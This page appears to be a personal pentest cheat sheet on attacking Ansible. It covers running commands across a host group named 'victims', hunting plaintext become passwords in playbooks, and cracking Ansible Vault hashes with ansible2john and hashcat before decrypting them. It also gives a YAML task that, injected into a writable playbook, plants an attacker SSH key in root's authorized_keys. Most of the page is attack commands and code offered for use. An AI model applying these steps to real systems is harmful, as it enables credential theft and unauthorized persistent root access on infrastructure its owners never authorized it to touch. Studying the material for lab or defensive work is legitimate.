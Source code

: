 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# <span style="fint-size: 35px; color:red">Ansible</span>

                
                
<style media="screen">
  div.highlighter-rouge {
    position: relative;
  }

  div.highlighter-rouge button {
    display: inline-block;
    outline: 0;
    cursor: pointer;
    border: 2px solid #000;
    border-radius: 3px;
    color: #fff;
    background: #000;
    font-size: 20px;
    font-weight: 600;
    line-height: 28px;
    padding: 12px 20px;
    text-align:center;
    transition-duration: .15s;
    transition-property: all;
    transition-timing-function: cubic-bezier(.4,0,.2,1);
    :hover{
        color: #000;
        background: rgb(255, 218, 87);
           }
    position: absolute;
    top: 2.3rem;
    left: 10px;
  }
</style>

<script type="text/javascript">
  function InitCopyPaste(){
    const codeBlocks = document.querySelectorAll("div.highlighter-rouge");

    codeBlocks.forEach((codeblock, index) => {
      const code = codeBlocks[index].innerText;
      const copyCodeButton = document.createElement("button");
      copyCodeButton.innerHTML = "COPY";
      copyCodeButton.classList = "btn btn-sm btn-outline-primary";
      // insert a copy button
      copyCodeButton.onclick = function () {
        window.navigator.clipboard.writeText(code);
        copyCodeButton.innerHTML = "COPIED";
        copyCodeButton.classList.add("btn-success");
        copyCodeButton.classList.remove("btn-outline-primary");

        setTimeout(() => {
          copyCodeButton.innerHTML = "COPY";
          copyCodeButton.classList.remove("btn-success");
          copyCodeButton.classList.add("btn-outline-primary");
        }, 2000);
      };
      // make the button
      codeblock.appendChild(copyCodeButton);
    });
  }

  document.addEventListener("DOMContentLoaded", InitCopyPaste);
</script>

#### Commands

```shell
this is a code block in shell
```

Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
{% highlight shell %}
ansible victims -a "whoami"
{% endhighlight %}
This will run _whoami_ on all members of the Ansible group. To run it as root <span style="color:red">ansible victims -a "whoami" --become</span> or specify the user <span style="color:red">ansible victims -a "whoami" --become user2</span>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <span style="color:red">/opt/playbooks</span> to see if there's any info leakage.
I.E.
{% highlight yaml %}
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
{% endhighlight %}
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
{% highlight yaml %}
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
{% endhighlight %}
Copy the hash starting with "$ANSIBLE_VAULT......." and use <span style="color:red">ansible2john</span> to convert it in a crackable way to then:
{% highlight shell %}
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
{% endhighlight %}
to then decrypt the vault like:
{% highlight shell %}
cat pw.txt | ansible-vault decrypt
{% endhighlight %}
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
{% highlight yaml %}
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
{% endhighlight %}
Also, some modules from Ansible might leak data in <span style="color:red">/var/log/syslog</span> (I.E. shell module)

